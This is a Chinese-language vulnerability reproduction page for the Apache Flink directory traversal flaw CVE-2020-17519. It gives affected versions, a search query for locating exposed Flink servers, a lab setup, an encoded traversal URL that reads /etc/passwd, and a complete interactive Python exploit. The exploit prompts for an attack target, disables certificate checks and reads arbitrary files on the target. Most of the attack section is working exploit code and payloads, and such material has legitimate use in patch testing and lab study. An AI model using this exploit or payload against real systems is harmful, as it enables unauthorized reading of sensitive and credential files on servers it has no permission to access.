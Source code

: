 # Apache Flink 目录遍历漏洞 CVE-2020-17519

## 漏洞描述

2021年01月06日，360CERT监测发现`Apache Flink`发布了`Apache Flink 目录穿越漏洞`的风险通告，漏洞编号为`CVE-2020-17518,CVE-2020-17519`，漏洞等级：`高危`，漏洞评分：`8.5`。

远程攻击者通过`REST API`目录遍历，可造成`文件读取/写入`的影响。

Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。

参考：

- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519

## 漏洞影响

```
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
```

## 网络测绘

```
app="Apache Flink"
```

## 环境搭建

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问`http://your-ip:8081`查看主页。

![image-20220223182227651](images/202202231822762.png)

## 漏洞复现

查看/etc/passwd：

```plain
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![image-20220223182245983](images/202202231822055.png)

## 漏洞POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```

![image-20220211111729412](images/202202111117492.png)

